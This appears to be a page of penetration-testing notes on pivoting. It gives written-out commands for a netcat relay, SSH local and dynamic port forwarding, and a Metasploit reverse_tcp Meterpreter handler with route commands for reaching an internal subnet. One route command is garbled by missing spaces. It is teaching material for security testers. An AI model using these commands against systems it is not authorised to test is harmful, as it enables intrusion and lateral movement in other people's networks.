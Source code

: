 # Pivoting

The technique of using one compromised machine to access another is called pivoting.

## Netcat Relay

```Shell
$mknod backpipe p
$nc –l –p 80 0<backpipe | nc 192.168.128.128 80 1>backpipe
```

![](https://github.com/wongkenny240/Penetration-Testing-Notes/assets/netcat_relay.png)

## SSH Local Port Forwarding

SSH local port forwarding is set up by the command below:

```Shell
$ ssh –L port:destination_host:destination_port username@pivot_host
```

`-L` indicates to use local port forwarding

![](https://github.com/wongkenny240/Penetration-Testing-Notes/assets/ssh_local.png)

## SSH Dynamic Port Forwarding

The syntax is as below:

```Shell
ssh –D address:port –f –N username@pivot_host
```

`-D` indicates to use dynamic port forwarding, `address` is local machine \(127.0.0.1\)

An example is shown below:

```
# ssh -D 127.0.0.1:9150 -f -N user@192.168.112.132`
user@192.168.112.132's password:
```

![](https://github.com/wongkenny240/Penetration-Testing-Notes/assets/ssh_dynamic_port_fwd.png)

 _**SSH dynamic port forwarding can access multiple systems on different ports.**_

### Pivot with Metasploit and Meterpreter Sessions

**Step 1** Start the multi/handler exploit

```Shell
msf > use exploit/multi/handler
msf exploit(handler) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.112.132
LHOST => 192.168.112.132
msf exploit(handler) > set LPORT 2222
LPORT => 2222
msf exploit(handler) > run
```

**Step 2** Run the executable on the compromised host and establish a Meterpreter session

**Step 3** Set up pivot by the metasploit route command

```Shell
msf exploit(handler) > route add192.168.128.0255.255.255.0 1
[*] Route added
msf auxiliary(tcp) > route print
```

**Step 4** Now metasploit modules can pivot through the compromised host and target  
systems on the internal network \(192.168.128.0/24\).

## Pivoting Technique Summary

### ![](https://github.com/wongkenny240/Penetration-Testing-Notes/assets/pivot_summary.png)

## Interaction Between Web Application Penetration Testing Tools and pivoting

## ![](https://github.com/wongkenny240/Penetration-Testing-Notes/assets/web_app_tool_pivot.png)


